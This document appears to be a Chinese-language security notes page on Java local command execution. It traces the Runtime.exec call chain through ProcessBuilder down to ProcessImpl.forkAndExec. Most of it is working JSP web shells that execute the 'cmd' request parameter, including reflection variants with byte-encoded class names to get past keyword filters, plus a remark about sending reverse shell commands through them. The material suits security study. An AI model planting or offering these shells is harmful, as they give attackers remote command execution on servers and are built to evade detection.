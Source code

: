 # 本地命令执行

## 前言

Java 原生提供了对本地系统命令执行的支持，浅浅记录几种不同的命令执行方式。

## Runtime命令执行

最为常见的命令执行方式就是通过`java.lang.Runtime`类的`exec`方法，无回显的代码示例如下：
```java
<%=Runtime.getRuntime().exec(request.getParameter("cmd")) %>
```

无回显传反弹 shell 命令即可
![image-20220723194743188](images/image-20220723194743188-8576868.png)

修改命令回显：
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream inputStream = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream bao = new ByteArrayOutputStream();
    byte[] bytes = new byte[1024];
    int a = -1;
    while((a = inputStream.read(bytes)) !=-1){
        bao.write(bytes, 0, a);
    }
    out.write(new String(bao.toByteArray()));

%>
```

![image-20220723212513757](images/image-20220723212513757.png)

跟踪分析`Runtime.getRuntime().exec()`源码，可以得到调用链如下（JDK8版本）：
![image-20220807211716655](images/image-20220807211716655.png)

```
java.lang.UNIXProcess.<init>                                        [UNIXProcess.java]
java.lang.ProcessImpl.start                                         [ProcessImpl.java]
java.lang.ProcessBuilder.start                                      [ProcessBuilder.java]
java.lang.Runtime.exec(String[] cmdarray, String[] envp, File dir)  [Runtime.java]
java.lang.Runtime.exec(String command, String[] envp, File dir)     [Runtime.java]
java.lang.Runtime.exec(String command)                              [Runtime.java]
org.apache.jsp.runtime_002dexec2_jsp._jspService                    [runtime_002dexec2_jsp.java]
```

因此，`exec()`方法是从`UNIXProcess`构造方法出发，经过一系列方法调用最终实现的命令执行，所以`exec()`方法并非命令执行的终点

## 反射Runtime命令执行

如果对`Runtime`关键字有过滤，可以通过反射进行绕过从而执行命令
```jsp
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %><%
    String str = request.getParameter("cmd");
    // 定义"java.lang.Runtime"字符串变量
    String jlr = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});
    // 反射Runtime类获取Class对象
    Class c = Class.forName(jlr);
    // 反射获取Runtime类的getRuntime方法
    Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));
    // 反射获取Runtime类的exec方法
    Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}),String.class);
    // 反射调用Runtim.getRuntime().exec()方法
    Object obj = m2.invoke(m1.invoke(null,new Object[]{}),new Object[]{str});

    // 反射获取Process类的getInputStream方法
    Method m3 = obj.getClass().getMethod(new String(new  byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    m3.setAccessible(true);

    // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    // \A为正则匹配，代表从字符串开头进行匹配
    Scanner s = new Scanner((InputStream) m3.invoke(obj, new Object[]{})).useDelimiter("\\A");
    String result = s.hasNext() ? s.next() : "";
    out.println(result);

%>
```

##  ProcessBuilder命令执行

前面我们已经知道`exec()`方法的调用链包含`ProcessBuilder`的`strat()`方法，因此我们也可以通过`processBuilder`来执行系统命令
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;
    while((a=in.read(b))!= -1){
        baos.write(b, 0, a);
    }
    out.write(new String(baos.toByteArray()));
%>
```

![image-20220727184018164](images/image-20220727184018164.png)

## UNIXProcess/ProcessImpl

在 JDK8 以后，将`UNIXProcess`合并到了`ProcessImpl`当中，我们可以再跟一下`exec()`的链对比前面的图看看，已经没有了`UNIXProcess`
![image-20220811173015325](images/image-20220811173015325.png)

因此`UNIXPeocess`和`ProcessImpl`此后可以看做一个东西，其最终调用了`native`执行系统命令的类，该类提供了一个名为`forkAndExec()`的`native`方法。`forkAndExec()`方法主要通过`fork&exec`来执行本地系统命令。

`ProcessImpl`类的`forkAndExec()`方法如下：

```java
private native int forkAndExec(int mode, byte[] helperpath,
                                   byte[] prog,
                                   byte[] argBlock, int argc,
                                   byte[] envBlock, int envc,
                                   byte[] dir,
                                   int[] fds,
                                   boolean redirectErrorStream)
        throws IOException;
```

## UNIXProcess/ProcessImpl反射命令执行

`ProcessImpl`类中没有共有的构造方法，所以不能直接实例化。我们可以通过反射去调用其中的静态方法`start()`
![image-20220812230031302](images/image-20220812230031302.png)
java 代码实现

```java
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.Map;

public class Main extends ClassLoader {
    public static void main(String[] args) throws Exception{
        Class cla = Class.forName("java.lang.ProcessImpl");
        Method method = cla.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        method.setAccessible(true);
        InputStream in = ((Process)method.invoke(null, new String[]{"ls"},null,null,null,false)).getInputStream();
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] b = new byte[1024];
        int a = -1;
        while ((a = in.read(b))!=-1){
            out.write(b,0,a);
        }
        System.out.println(out.toString());
    }
}
```

jsp 代码实现按照跟到的`ProcessImpl`类中的`start`方法写就可以了
```jsp
<%--
  Created by dotast on 2022/8/14 01:00
--%>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<%!
    byte[] toCString(String s) {
        if (s == null)
            return null;
        byte[] bytes = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0,
                result, 0,
                bytes.length);
        result[result.length-1] = (byte)0;
        return result;
    }
    InputStream start(String[] cmdarray) throws Exception{
        assert cmdarray != null && cmdarray.length > 0;

        // Convert arguments to a contiguous block; it's easier to do
        // memory management in Java than in C.
        byte[][] args = new byte[cmdarray.length-1][];
        int size = args.length; // For added NUL bytes
        for (int i = 0; i < args.length; i++) {
            args[i] = cmdarray[i+1].getBytes();
            size += args[i].length;
        }
        byte[] argBlock = new byte[size];
        int i = 0;
        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
            // No need to write NUL bytes explicitly
        }

        int[] envc = new int[1];
        int[] std_fds = new int[]{-1, -1, -1};

        Class cla = Class.forName("java.lang.ProcessImpl");
        Constructor constructor = cla.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object object = constructor.newInstance(toCString(cmdarray[0]), argBlock, args.length, null, envc[0], null, std_fds, false, false);
        Method method = cla.getDeclaredMethod("getInputStream");
        method.setAccessible(true);
        return (InputStream) method.invoke(object);
    }
%>
<%
    String[] cmd = request.getParameterValues("cmd");
    out.println("<pre>"+ new String(start(cmd).readAllBytes()) + "</pre>");
%>

```

![image-20220814005057834](images/image-20220814005057834.png)